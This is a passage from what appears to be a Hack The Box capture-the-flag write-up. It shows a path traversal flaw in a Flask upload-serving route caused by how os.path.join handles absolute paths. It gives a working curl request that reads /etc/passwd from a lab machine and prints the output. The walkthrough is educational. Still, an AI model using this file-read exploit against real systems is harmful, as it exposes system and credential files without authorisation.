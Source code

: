 Now going through the contents downloaded... 

![alt text](/posts/opensource-htb-1.png)

We can easily see that this is a git repository. Checking the logs:
```bash
git log --oneline

Make sure to clean up the dockerfile for production use.
```
This tells us that there is likely sensitive information disclosure somewhere. 

Checking all the branches from the repo:
```bash
git branch -a
```
### Vulnerability
In `views.py`. There is a function for handling uploads and serving them to the user called `send_report`:
```python
@app.route('/uploads/<path:path>')
def send_report(path):
  path = get_file_name(path)
  return send_file(os.path.join(os.getcwd(), 'public', 'uploads', path))
```
This function allows for path traversal. To showcase how this works I'll start a standard python interpreter:
```bash
~ 
❯ python -q
>>> import os
>>> path = "supaaasuge"
>>> vuln_path = "/spaaasuge"
>>> os.path.join(os.getcwd(), 'public', path)
'/home/supaaa/public/supaaasuge'
>>> os.path.join(os.getcwd(), 'public', vuln_path)
'/spaaasuge'
>>> 

```
This is a bit unexpected however here is the docoumentation that goes over this in more detail: [Docs](https://docs.python.org/3.10/library/os.path.html#os.path.join)

As you can see, by prepending the filename with `/` this then becomes the absolute path. 

To exploit this I tried sending: 
```bash
curl --path-as-is http://10.129.227.140/uploads//etc/passwd
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://10.129.227.140/uploads/etc/passwd">http://10.129.227.140/uploads/etc/passwd</a>. If not, click the link.
```
This does not work... odd. After trying some different stuff, I found that to make this work you have to send `../` prepended to the path name. I am not exactly sure why this is honestly, but it works so I'm not gonna lose any sleep over it know what I'm sayin?
```bash
curl --path-as-is http://10.129.227.140/uploads/..//etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
```